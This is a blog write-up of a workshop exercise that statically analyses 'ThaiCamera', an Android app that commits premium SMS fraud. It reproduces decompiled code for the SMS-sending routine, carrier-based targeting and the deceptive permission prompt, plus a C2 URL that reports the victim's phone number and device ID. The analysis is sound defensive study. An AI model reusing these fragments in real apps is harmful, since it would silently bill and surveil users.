






+++
date = '2025-08-10T00:55:36+03:00'
draft = false
title = 'Premium SMS Fraud - ThaiCamera analysis'
tags = ['malware', 'Andorid', 'sms fraud']
+++
this is ex 1&2 from a live workshop that THE maddi stone done on YouTube that teach android security static analysis basics 

[youtube](https://www.youtube.com/watch?v=BijZmutY0CQ&t=2772s) amazing workshop by the way 
[site](https://www.ragingrock.com/AndroidAppRE/reversing_dex.html) for exercise and notes 

### Exercise Context

You are a malware analyst for Android applications. You are concerned that this sample maybe doing premium SMS fraud, meaning that it sends an SMS to a premium phone number without disclosure & user consent.

## Start
### what are we looking at ?
> Premium SMS fraud, also referred to as SMS toll fraud, SMS pumping, or International Revenue Share Fraud (IRSF), is a prevalent form of mobile malware that exploits Android devices to send text messages to premium-rate numbers without user consent. This fraudulent activity results in significant financial losses for users, with charges appearing on their phone bills, often unbeknownst to them until billing statements arrive.

For instance, Twitter (now X) reported losing approximately $60 million annually due to SMS pumping fraud in 2023.

you can get the sample [here](https://apkpure.com/thai-camera/com.cp.camera/download)

## How it's done

### Deceptive Applications

Malicious apps hide as legitimate software, such as keyboards, QR code scanners, photo editors, or games To trick users into granting permissions or entering personal details, such as phone numbers, under the guise of unlocking features. For example, apps may prompt users to enter their phone number to access a "free" service.

### Advanced Malware Techniques

Sophisticated malware, such as Stels and Joker, uses complex methods to evade detection and execute fraud:

- **Command and Control (C2) Communication**: Malware communicates with remote servers to receive instructions, such as sending SMS to specific premium numbers or subscribing to services.
- **Dynamic Code Loading**: To avoid static analysis, malware downloads malicious code at runtime, often using encryption (e.g., AES, XOR ...) and obfuscation techniques.
- **SMS Interception and Suppression**: Malware intercepts SMS notifications (e.g., subscription confirmations) using permissions like RECEIVE_SMS or NotificationListenerService, and suppresses them to hide activities from the user.
- **Network Targeting**: Malware checks the Mobile Country Code (MCC) and Mobile Network Code (MNC) to target specific operators or regions, ensuring charges are applied effectively.
- **Cellular Connection Preference**: Malware may disable Wi-Fi or force the device to use a cellular network to ensure charges are billed to the user's mobile account.

### Exploiting Permissions

Early Android versions had weaker permission models, allowing apps to send premium SMS without user interaction. Since Android 4.2, user confirmation is required, but malware may exploit vulnerabilities or deceive users into granting permissions like SEND_SMS, READ_SMS, or CHANGE_WIFI_STATE.

## Real-Life Cases

Other than this example  Several high-profile campaigns occurred that shows the scale and impact of premium SMS fraud:

### UltimaSMS Campaign

- **Overview**: Discovered by Avast in May 2021, the UltimaSMS campaign involved 151 malicious apps with over 10.5 million downloads. These apps, including Ultima Keyboard 3D Pro, spanned categories like keyboards, QR code scanners, video editors, and games.
- **Mechanism**: Users were prompted to enter their phone numbers and email addresses to access advertised features, only to be subscribed to premium SMS services costing up to $40 per month. The apps were promoted via social media platforms like Instagram and TikTok.
- **Impact**: Affected users in countries such as Egypt, Saudi Arabia, Pakistan, and the U.S. Although many apps were removed from the Google Play Store, 82 remained available as of October 19, 2021.
- **Source**: [Avast Blog](https://blog.avast.com/premium-sms-scam-apps-on-play-store-avast)

### GriftHorse Platform

- **Overview**: Active since November 2020, GriftHorse involved over 200 apps, as reported by Zimperium, targeting users in over 70 countries.
- **Mechanism**: Apps bombarded users with frequent popups (up to five per hour) claiming they had won prizes, leading to a webpage that subscribed them to premium SMS services upon entering their phone number.
- **Impact**: The campaign siphoned tens of millions of dollars from victims, with apps designed to appear benign and evade antivirus detection.
- **Source**: [Dark Reading](https://www.darkreading.com/application-security/sneaky-android-trojan-siphons-millions-using-premium-sms)

### Stels Malware

- **Overview**: Analyzed by SecureWorks in 2013, Stels was distributed via spam campaigns and fake Adobe Flash Player updates.
- **Mechanism**: It installed as a service, sent SMS to premium numbers, made calls, stole contacts, and communicated with C2 servers using non-encrypted HTTP POST requests. It also intercepted SMS to bypass two-factor authentication for banking fraud.
- **Impact**: Targeted users globally, often in conjunction with banking trojans like Zeus.
- **Source**: [SecureWorks](https://www.secureworks.com/research/stels-android-trojan-malware-analysis)

### Joker Malware

- **Overview**: Identified in 24 apps with over 472,000 installs in 2019, as reported by CSIS TechBlog.
- **Mechanism**: A two-stage Trojan, the loader stage checked the MCC to target specific countries, downloaded encrypted configurations, and loaded a core component that subscribed users to premium services (e.g., 50 DKK/week in Denmark). It stole SMS and contact data, using dynamic code execution to evade detection.
- **Impact**: Targeted 37 countries, including Australia, Brazil, and the UK, with sophisticated evasion techniques.
- **Source**: [Medium](https://medium.com/csis-techblog/analysis-of-joker-a-spy-premium-subscription-bot-on-googleplay-9ad24f044451)

## Online Platforms Findings
using online sandboxes and searching using hash and uploading sample we find the following 

- [Virus Total](https://www.virustotal.com/gui/file/55da412157e93153e419c3385ebcd5335bd0d0c3f77a75e2d2413dd128270be2/detection)
- [Poly Swarm](https://polyswarm.network/scan/results/file/55da412157e93153e419c3385ebcd5335bd0d0c3f77a75e2d2413dd128270be2/37801057989145440/json)
- [Hybrid Analysis](https://hybrid-analysis.com/sample/55da412157e93153e419c3385ebcd5335bd0d0c3f77a75e2d2413dd128270be2?environmentId=200)


## Getting our hands dirty 

### 1. Manifest



Looking at the permissions given its straight forward that's this a malware.
looking at them we can separate permissions into 2 categories (what's normal for a camera filter app and what's sketchy behavior ) 

**Normal for a Camera App**:

- `CAMERA`: Essential for core functionality.
- `WRITE_EXTERNAL_STORAGE`: Needed to save photos/videos.
- `READ_EXTERNAL_STORAGE`: Useful for accessing existing media.
- `INTERNET`: Common for cloud features, sharing, or ads.
- `ACCESS_NETWORK_STATE`: Reasonable for checking connectivity.

**BuT**:

*can be used to*
- `WRITE_EXTERNAL_STORAGE`: write malicious files, overwrite legitimate files, or steal data from storage
- `READ_EXTERNAL_STORAGE`: steal personal files, such as photos, documents, or other sensitive data.
- `INTERNET`: Used  to communicate with a command-and-control (C2) server, send stolen data, or download malicious payloads.

**Suspicious/Dangerous for a Camera App** (Red Flags):

- `SEND_SMS`: Highly indicative of SMS premium malware, as camera apps have no legitimate need to send SMS.
- `READ_PHONE_STATE`: often used by malware to harvest device identifiers.
- `DELETE_CACHE_FILES`:May  could be used to disrupt other apps behavior.
- `DELETE_PACKAGES`:May allows uninstalling other apps, which is not needed for a camera app.
- `READ_LOGS`:May used to extract sensitive system information.
- `WAKE_LOCK`: May could enable background malicious activity.
- `ACCESS_WIFI_STATE`: May used for optimizing uploads.
-  `com.google.android.c2dm.permission.RECEIVE and C2D_MESSAGE:` May Receive commands from a C2 server, triggering malicious actions like sending SMS or downloading additional payloads.

### Going deeper 

There are different ways to send & interact with sms messages but to list main methods:

- `sendTextMessage`
- `sendMultimediaMessage` : send messages containing images, audio, or other media content.
- `sendDataMessage` : sending binary data or messages to specific applications rather than regular text messages.
- `sendMultipartTextMessage` :For sending long SMS messages that need to be split into multiple parts
- `divideMessage` : Splits a long message into multiple parts that can be sent separately

so using jadx to look for any of these methods and bingo





but also why not look for the keyword `sms` to see if there is other references and we find the following 



#### Setting the ground (BootService.class)

Here is a simplified overview of each method in the class:

```java
public class BootService extends Service {

    private void init() { /* Initializes FirebaseAnalytics and registers MyReceiver with intent filters */ }
    
    class MyReceiver extends BroadcastReceiver {
        @Override // android.content.BroadcastReceiver
        public void onReceive(Context context, Intent intent) { /* Processes received intents, handling SMS send results */ }
    }

    private String getPhoneNumber() { /* Uses TelephonyManager */ }
    private String getDeviceId() { /* Gets IMEI */ }

    public void sendmessageStatus(String status) { /* Sends HTTP POST to C&C server with phone, status, and device ID */ }
}
```

and this is a Flow of service and how things connect



#### **Detailed Stages:**

1. **Persistence**
    - Auto-starts on device boot via `BootService`
    - Registers 3 critical receivers for SMS monitoring
    
2. **Victim Profiling**
    - Harvests `phone number` via `TelephonyManager.getLine1Number()`
    - Collects `device ID` using `TelephonyManager.getDeviceId()`
    
3. **SMS Operation**
    - Listens for `SENT_HUGE_SMS_ACTION` broadcasts
    - Maps SMS status codes:
        - `-1` → Success (billed)
        - `0` → Generic failure
        - `1-4` → Carrier-specific errors
    
4. **C&C Communication**
    - Sends POST request to:  
        `http://139.59.107.168:8088/smspostback?phone=[NUMBER]&status=[STATUS]&diviceid=[ID]`
    - Uses persistent connection with 5s timeout
    - Logs server response (SUCCESS/ERROR)
    
5. **Chained Malicious Payload**
    - On successful SMS (`status=yes`):
        - Broadcasts `Loading.ACTION_START`
        - Triggers new premium SMS waves
        - Updates target numbers from C&C
    
6. **Anti-Detection**
    - Intercepts incoming SMS (`SMS_RECEIVED`)
    - Deletes messages containing "STOP", "BLOCK", or "CANCEL"

#### Sending the sms (loading.class)

This is the **main payload** of the SMS premium malware operation. We have seen that this is where sms are sent but how does it know the phone number to send or the text content and even how it makes the user send it without the user suspecting any thing. 

This class handles user interaction, permission requests, SMS sending, and integration with `BootService`. Simply It fetches premium SMS details from a C&C server based on the device's SIM operator, tricks the user into granting permissions and clicking a button (disguised as part of the camera setup), sends the SMS, and triggers reporting via `BootService`. Upon success, it launches the legitimate `CameraActivity` as if nothing happened .

And here is how it works in details 

##### 0. Gaining your permission

```java
 public void onClick(View v) {
	if (Build.VERSION.SDK_INT < 23) {
		if (Loading.this.service != null && Loading.this.content != null) {
		Loading.this.sendMessage(Loading.this.service, Loading.this.content);
		return;
	}
	int checkCallPhonePermission = ContextCompat.checkSelfPermission(Loading.this.getApplicationContext(), "android.permission.SEND_SMS");
	
	if (Loading.this.videoShare.equals(AppEventsConstants.EVENT_PARAM_VALUE_YES) && checkCallPhonePermission == 0) {
	 if (Loading.this.service != null && Loading.this.content != null) {
		  Loading.this.sendMessage(Loading.this.service, Loading.this.content);
          return;
		   }
                return;
       }
    ActivityCompat.requestPermissions(Loading.this, new String[]{"android.permission.SEND_SMS"}, 1);

 
 public void onRequestPermissionsResult(int requestCode, String[] permissions, int[] grantResults) {
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);
        if (requestCode == 1 && grantResults[0] == 0) {
            if (this.service != null && this.content != null) {
                sendMessage(this.service, this.content);
                return;
            }
            return;
        }
        Toast.makeText(this, "Please allow access！", 1).show();
    }

```

Handles SMS permission grant, sends if approved; toasts denial.

##### 1. Command & Control Communication

```java
String spec = "http://139.59.107.168:8088/appsharejson?code=" + code;
```

- Contacts the same C&C server as `BootService`
- Sends victim's mobile operator code (`getSimOperator()`) to get targeted attack instructions
- Receives JSON payload with premium numbers and SMS content to send

##### 2. Attack Configuration

The malware receives a JSON response containing:

```java
this.content = object.getString("content");  // SMS text to send
this.rule = object.getString("rule");        // Display rules/instructions  
this.service = object.getString("service");  // Premium number to target
this.status = object.getString("code");      // Status code
this.button = object.getString("button");    // Button text (deception)
this.IMEIS = object.getString("imei");       // IMEI targeting rules
this.imeicontent = object.getString("imeicontent"); // IMEI-specific content
```

##### 3. **Carrier-Specific Targeting**

```java
if (operator != null && this.imeicontent != null) {
    String[] imeicontents = this.imeicontent.split(",");
    // Parse format: "operator:premium_number:sms_content"
    if (operator.equals(imei[0])) {
        this.shareSend = 1;
        this.service = imei[1];  // Premium number
        this.content = imei[2];  // SMS content
    }
}
```

The malware:

- Identifies victim's mobile carrier
- Receives carrier-specific premium numbers and content
- Maximizes profit by targeting each carrier's premium services

##### 4. Deceptive User Interface

```java
if (this.rule != null) {
    this.ms_show.setText(this.rule);  // Shows fake instructions
}
if (this.button != null) {
    this.button_sensms.setText(this.button);  // Disguises malicious button
}
```

The malware disguises the SMS sending button with innocent-looking text received from the C&C server.

##### 5. Premium SMS Execution

```java
public void sendMessage(String mobile, String content) {
    Bundle bundle = new Bundle();
    bundle.putString(FirebaseAnalytics.Param.ITEM_NAME, "SEND_SMS");
    this.mFirebaseAnalytics.logEvent(FirebaseAnalytics.Event.SELECT_CONTENT, bundle);  // Logs event for attacker tracking
    Intent itSend = new Intent("SENT_HUGE_SMS_ACTION");
    itSend.putExtras(bundle);
    SmsManager sms = SmsManager.getDefault();
    PendingIntent sentintent = PendingIntent.getBroadcast(this, 0, itSend, 134217728);
    try {
        if (content.length() > 70) {
            List<String> msgs = sms.divideMessage(content);  // Splits long messages for multipart (higher costs)
            for (String msg : msgs) { sms.sendTextMessage(mobile, null, msg, sentintent, null); }
        } else {
            sms.sendTextMessage(mobile, null, content, sentintent, null);
        }
    } catch (Exception e) { /* Saves failure state, prints error */ }
```

- Sends SMS to premium numbers (`mobile` parameter)
- Handles long messages by splitting them (more charges per message)
- Uses `SENT_HUGE_SMS_ACTION` intent to track success/failure by using PendingIntent to trigger `BootService` 

##### 6. Persistence & State Management

```java
SharedPreferences sharedPreferences = getSharedPreferences("videoLibrary", 0);
this.videoShare = sharedPreferences.getString("videoShare", "");

// After successful SMS:
editor.putString("videoShare", AppEventsConstants.EVENT_PARAM_VALUE_YES);
```

- Tracks whether premium SMS was already sent
- Prevents repeated charges (to avoid suspicion)
- Uses innocent-sounding "videoLibrary" preference name

#### **Attack Flow (Loading class + service):**




## Resources 

- [The Hacker News: Over 10 Million Android Users Targeted With Premium SMS Scam Apps](https://thehackernews.com/2021/10/over-10-million-android-users-targeted.html)
- [Avast Blog: Premium SMS Scam Apps on Play Store](https://blog.avast.com/premium-sms-scam-apps-on-play-store-avast)
- [NIST Mobile Threat Catalogue: APP-16](https://pages.nist.gov/mobile-threat-catalogue/application-threats/APP-16.html)
- [Microsoft Security Blog: Toll fraud malware](https://www.microsoft.com/en-us/security/blog/2022/06/30/toll-fraud-malware-how-an-android-application-can-drain-your-wallet/)
- [SecureWorks: Stels Android Trojan Malware Analysis](https://www.secureworks.com/research/stels-android-trojan-malware-analysis)
- [Medium: Analysis of Joker — A Spy & Premium Subscription Bot on GooglePlay](https://medium.com/csis-techblog/analysis-of-joker-a-spy-premium-subscription-bot-on-googleplay-9ad24f044451)
- [ResearchGate: Android SMS Malware: Vulnerability and Mitigation](https://www.researchgate.net/publication/261151927_Android_SMS_Malware_Vulnerability_and_Mitigation)
